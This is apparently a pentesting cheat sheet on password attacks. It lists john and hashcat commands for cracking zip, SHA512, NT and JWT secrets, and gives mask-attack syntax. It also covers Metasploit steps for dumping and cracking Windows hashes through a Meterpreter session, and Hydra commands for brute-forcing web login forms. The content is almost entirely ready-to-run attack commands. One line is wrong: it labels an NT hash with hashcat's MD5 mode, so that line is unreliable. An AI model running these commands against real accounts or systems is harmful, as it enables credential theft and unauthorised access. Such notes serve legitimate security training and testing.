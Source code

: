# Password attacks
## john
- Crack password protected zip archives
```bash
zip2john archive.zip > archive.hash
john archive.hash --fork=4 -w=/path/to/wordlist
```

- Crack salted SHA512 hash
```bash
# hashfile format: hash$salt
john --format='dynamic=sha512($p.$s)' --wordlist=/path/to/wordlist ./hashfile
```

- Crack Windows hash
```sh
# Fist, get Windows hash
# Format: User:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d:::
john --format=NT --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

## hashcat
- Crack Windows hash
```bash
# Format: ffb43f0de35be4d9917ac0cc8ad57f8d
hashcat -m 0 -a 0 ./hash.txt /opt/wordlists/rockyou.txt
```
- attack modes
```bash
# dictionary attack
-a0
# combinator attack
-a1
# bruteforce / mask attack
-a3
# hybrid wordlist+mask
-a6
# hybrid mask+wordlist
-a7
```
- hash types
```bash
# md5
-m 0
# jwt
-m 16500
```

### mask attack
| code | chars                      |
| ---- | -------------------------- |
| ?l   | abcdefghijklmnopqrstuvwxyz |
| ?u   | ABCDEFGHIJKLMNOPQRSTUVWXYZ |
| ?d   | 0123456789                 |
| ?h   | 0123456789abcdef           |
| ?H   | 0123456789ABCDEF           |
| ?s   | «space»!"#$%&'()*          |
| ?a   | ?l?u?d?s                   |
| ?b   | 0x00 - 0xff                |

```bash
# define custom charset
-1 ?h?H?d
# define mask
?1?1?1
# command
-a3 -1 ?h?H?d ?1?1?1
```

### HS256 JWT secret
```bash
# mask attack 4-12 char [a-z0-9]
hashcat -a 3 -m 16500 jwt.txt ?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld?ld -i --increment-min=4

# dictionary attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt

# distionary rule-based attack
hashcat -a 0 -m 16500 jwt.txt passlist.txt -r rules/best64.rule
```

## Metasploit
- Crack previously dumped Windows hash
```sh
# First, open and background a Meterpreter session
# Store hash dump into database, then:
use post/windows/gather/hashdump
set session X
use auxiliary/analyze/crack_windows
run
```


# Brute forcing
## Hydra
- Bruteforce login/password combination
```bash
hydra -L /usr/share/wordlists/rockyou.txt -P /usr/share/wordlists/rockyou.txt <hostname> http-post-form "/path/to/login:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```
- Find password for a known user
```bash
hydra -P /usr/share/wordlists/rockyou.txt -l admin www.domain.tld http-post-form "/path/to/login.php:<username field name>=^USER^&<password field name>=^PASS^:<error string>"
```

## Links
___
### Guides
- https://github.com/frizb/Hydra-Cheatsheet
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/xor-kpa.py

### Writeups
- 
